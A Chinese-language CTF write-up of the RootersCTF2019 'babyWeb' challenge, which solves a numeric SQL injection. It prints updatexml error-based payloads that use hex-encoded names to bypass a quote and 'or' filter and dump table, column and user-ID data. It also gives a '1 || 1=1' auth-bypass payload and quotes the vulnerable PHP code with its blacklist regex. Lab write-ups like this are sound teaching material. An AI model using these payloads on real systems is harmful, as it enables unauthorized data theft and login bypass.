

# \[RootersCTF2019]babyWeb

## \[RootersCTF2019]babyWeb

## 考点

* 注入类型判断
* 报错注入
* 万能密码
* or绕过
* 单双引号绕过

## wp

给了提示

1. 密码是18位数字
2. 禁止输入字母和`UNION SLEEP ' " OR - BENCHMARK`

请求`search=1`返回语句`SELECT * FROM users WHERE uniqueid=1`

输入`0%23`返回`SELECT * FROM users WHERE uniqueid=0#`，应该是数字型注入

输入`1^1`返回的是`SELECT * FROM users WHERE uniqueid=1^1`，就很奇怪

那就试试`search=<script>alert(1)</script>`，结果弹框了，这里应该是服务端把GET请求的search原封不动的返回了



输入`<>`提示SQL语法错误，信息为`check the manual that corresponds to your MariaDB server version for the right syntax to use near '<>' at line 1`

直接试试`order by`呢，用大一点的数试试，输入`1 order by 5`，返回`Unknown column '5' in 'order clause'`

输入`1 order by 2`返回了正常信息，说明查询的列数是2

### 第一种解法：报错注入

这里可以下判断，是无回显的数字型注入，有报错信息，试试报错注入。

ban了`or`，可以使用`and`或者`||`；ban了单双引号，可以使用十六进制

```
search=1 and updatexml(1,concat(0x7e,(select database()),0x7e),1)%23
sql_injection

search=1 and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=0x73716C5F696E6A656374696F6E),0x7e),1)%23
users

search=1 and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name=0x7573657273),0x7e),1)%23
search=1 and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_name=0x7573657273 limit 4,1),0x7e),1)%23
USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS,user,uniqueid

search=1 and updatexml(1,concat(0x7e,(select count(uniqueid) from users),0x7e),1)%23
2

search=1 and updatexml(1,concat(0x7e,(select group_concat(uniqueid) from users),0x7e),1)%23
837461526918364526,123456789928466788
```

使用837461526918364526即可

### 第二种解法：万能密码

payload：`1 || 1=1 limit 0,1`，使用`1 || 1=1`会列出所有的id，需要用limit控制输出

### 核心代码

```
if(isset($_GET['search'])){
  $search = $_GET['search'];
  if(preg_match('/(union|sleep|\'|\"| or |-|benchmark)/i', $search)){
    exit();
  }
  else{
    $query = "SELECT * FROM users WHERE uniqueid=$search";
    $result=mysqli_query($link,$query) or die(mysqli_error($link));
    $count = mysqli_num_rows($result);
    if(mysqli_num_rows($result) === 1){
      while($row = mysqli_fetch_array($result)){
        $pass = $row['uniqueid'];
      }
      header("Location: https://babyweb.rootersctf.in/flag0flag0123456789.php?id=".$pass);
      die();
    }

    echo $query;
  }
}
```

## 小结

1. 类似题目，\[b01lers2020]Life on Mars是输入字符串但是是数字型注入，本题是输入数字回显原文的数字型注入
2. ban了`or`，可以使用`and`或者`||`
3. ban了单双引号，可以使用十六进制
